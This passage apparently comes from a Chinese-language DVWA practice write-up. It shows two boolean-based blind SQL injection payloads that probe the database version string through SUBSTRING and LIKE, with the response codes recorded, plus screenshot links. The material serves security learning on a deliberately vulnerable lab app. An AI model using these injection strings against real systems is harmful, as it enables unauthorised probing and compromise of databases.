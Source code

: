 ### ✨Done✨

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%') AND 1='1
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2090.png)

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2091.png)

最後再測試版號是否已經結束

```sql
# 400
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26.%') AND 1='1
```
